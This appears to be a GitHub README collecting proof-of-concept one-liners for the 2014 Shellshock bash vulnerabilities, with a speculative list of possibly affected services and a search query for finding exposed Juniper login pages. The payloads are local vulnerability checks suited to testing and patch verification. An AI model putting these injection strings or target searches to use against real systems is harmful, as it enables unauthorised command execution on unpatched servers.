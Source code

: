 Shellshocker - Repository of "Shellshock" Proof of Concept Code
=================

Collection of Proof of Concepts and Potential Targets for #ShellShocker

Wikipedia Link: https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29#CVE-2014-7186_and_CVE-2014-7187_Details

Please submit a pull request if you have more links or other resources

**Speculation:(Non-confirmed possibly vulnerable)** 

+ XMPP(ejabberd)
+ Mailman
+ MySQL
+ NFS
+ Bind9
+ Procmail [see](https://www.dfranke.us/posts/2014-09-27-shell-shock-exploitation-vectors.html)
+ Exim [see](https://www.dfranke.us/posts/2014-09-27-shell-shock-exploitation-vectors.html)
+ Juniper Google Search`inurl:inurl:/dana-na/auth/url_default/welcome.cgi`
  + via: https://twitter.com/notsosecure/status/516132301025984512
  + via: http://kb.juniper.net/InfoCenter/index?page=content&id=JSA10648&actp=RSS
+ Cisco Gear
  + via: http://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20140926-bash
+ CUPS [see](https://access.redhat.com/articles/1200223)

**If you know of PoCs for any of these, please submit an issue or pull request with a link.**

## Command Line (Linux, OSX, and Windows via Cygwin)

+ [bashcheck](https://github.com/hannob/bashcheck) - script to test for the latest vulns

### CVE-2014-6271
+ `env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id`

### CVE-2014-7169
_will create a file named echo in cwd with date in it, if vulnerable_
+ `env X='() { (a)=>\' bash -c "echo date"; cat echo`

### CVE-2014-7186
+ `bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo "CVE-2014-7186 vulnerable, redir_stack"`

### CVE-2014-7187
+ `(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash || echo "CVE-2014-7187 vulnerable, word_lineno"`

### CVE-2014-6278
+ `env X='() { _; } >_[$($())] { echo CVE-2014-6278 vulnerable; id; }' bash -c :

### CVE-2014-6277
_will segfault if vulnerable_
+ `() { x() { _; }; x() { _; } <<a; }`
+ Additional discussion on fulldisclosure: http://seclists.org/fulldisclosure/2014/Oct/9
